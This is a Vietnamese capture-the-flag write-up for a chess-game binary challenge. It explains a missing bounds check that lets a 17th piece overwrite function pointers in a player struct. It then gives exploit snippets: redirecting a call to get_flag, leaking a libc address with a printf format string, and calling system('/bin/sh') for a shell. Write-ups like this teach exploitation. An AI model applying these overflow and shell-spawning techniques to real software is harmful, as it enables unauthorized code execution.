 Bài này mình được cung cấp cả source và hint nên việc tìm ra bug cũng không quá khó.

Hint: **Một người chơi có bao nhiêu quân cờ.**

# **BUG**

Xem qua file source, ta thấy struct player được định nghĩa như sau:
```
typedef struct player {
    int nuoc;
    int quan_luc;
    quan_co c[16];
    void (*di)(struct player *);
    void (*trash_talk)(struct player *);
    void (*them_quan)(struct player *, loai_quan_co, char *, mau_quan_co);
} player;
```
Như vậy, mỗi người chơi sẽ có tối đa 16 quân cờ. Tuy nhiên, đoạn code thêm quân phía bên dưới không kiểm tra số lượng quân cờ của người chơi:
```
switch (read_num()) {
            case 1:
                quan = read_quan();
                dan_do = read_dan_do();
                human->them_quan(human, quan, dan_do, ddo);
                printf("- Đã điều động thêm %s.\n", human->c[human->quan_luc-1].string);
                break;
```
```
void them_quan(player* p, loai_quan_co l, char *dan_do, mau_quan_co mau) {
    init_quan_co(&(p->c[p->quan_luc]), l, dan_do, mau);
    p->quan_luc += 1;
}
```
Điều này dẫn đến người chơi có thể nhập nhiều hơn 16 quân cờ và ghi đè được các hàm *di*, *trash_talk* và *them_quan*

# **Exploit**
## Sử dụng hàm get_flag có sẵn:

Do giới hạn của ctf 3 tiếng nên anh ra đề đã cung cấp sẵn 1 hàm *get_flag* để đọc flag.

Để tận dụng hàm này, ta chỉ cần thêm quân 16 lần, sau đó ở lần thứ 17 sẽ thêm 1 quân có giá trị *dan_do* là địa chỉ của hàm *get_flag*.
Khi đó, hàm *di* sẽ bị ghi đè bởi hàm *get_flag*. Sau đó, gọi hàm *di* để lấy flag:
```
        for i in range(16):
                them_quan("xe", "ahuhi")

# use get_flag
        them_quan("noob", p32(get_flag))

        r.sendline("2")
        r.interactive()
```

## Get shell:

Sau khi mình khai thác sử dụng lại hàm get_flag thành công, mình được khuyến khích là thử tìm cách để lấy được shell xem có được không.

Với zer0 kiến thức về khai thác trên heap, mình khá là betak khúc này. Sau đó, mình được anh **@bo8** nói là trong trường hợp này, mình chỉ có thể control được con trỏ lệnh chứ không thể kiểm soát được đối số truyển vào. Do đó, mình phải tìm cách tận dụng lại các đối số này.

Sau một khoảng thời gian bế tắc again, mình có hỏi và nhận được một super hint siêu to khổng lồ từ "ĐẤNG" **@HoàngThắng** là có thể sử dụng *printf* để leak địa chỉ hàm *__libc_start_main* ở trong stack.

OK, có hint super value rồi, triển khai thôi:

### Leak address:

Sau một thời gian tìm trong source code của bài, mình thấy hàm *read_str* có nhiệm vụ đọc chuỗi vào một địa chỉ truyền vào:
```
void read_str(char *buf, unsigned int size) {
    int ret;
    ret = read(0, buf, size);

    if (ret <= 0) {
        puts("read error");
        exit(1);
    }

    buf[ret-1] = '\x00';
}
```
Vì vậy mình có thể tận dụng lại hàm này để lưu formatstring mình cần vào tại địa chỉ của *human*. Sau đó, ghi đè hàm *di* thành hàm *printf* và gọi nó để leak giá trị bên trong stack:

Ở đây, vị trí mình cần leak ra nằm ở vị trí từ 16 trong stack, vậy formatstring cần sử dụng là __%15$p__:

![show_stack](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/stack.PNG)

Và giá trị mình leak ra được là **__libc_start_main + 247** => **Libc base = leak - 247 - __libc_start_main offset**

![leak address](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/leak.PNG)

Sau khi leak và tính toán được các địa chỉ cần thiết, mình sử dụng lại hàm *them_quan* để ghi đè hàm system vào địa chỉ hàm bất kì, ở đây mình chọn hàm *khich_tuong*.

Tuy nhiên, vị trí của các giá trị mình ghi vào có phụ thuộc vào giá trị của biến *quan_luc* trong struct player. Do đó, trước khi thêm quân, mình cần phải sửa lại giá trị này thành 0x10(16):
```
        r.recvuntil("> ")
        r.sendline("2")
        r.sendline("\x00"*4 + "\x10\x00\x00\x00")
```

Sau khi sửa lại giá trị *quan_luc*, thêm 1 quân để ghi đè 2 hàm *di* và hàm *khich_tuong* bằng 2 hàm *read_str* và hàm *system*.

Cuối cùng, để lấy shell, gọi hàm *di* (đã bị ghi đè thành *read_str*) để truyển vào chuỗi "/bin/sh" và gọi *khich_tuong* để thực hiện *system("/bin/sh")*:
```
        r.recvuntil("> ")
        them_quan("noob", p32(read_str)+p32(system))

        r.sendline("2")
        r.sendline("/bin/sh")

        r.recvuntil("> ")
        r.sendline("3")

```
![get_shell](https://github.com/tykawaii/CTF/blob/master/Writeups/uitctf/cokhichtuong/images/final.PNG)

Cảm ơn mọi người đã đọc hết write-up của mình :smile:
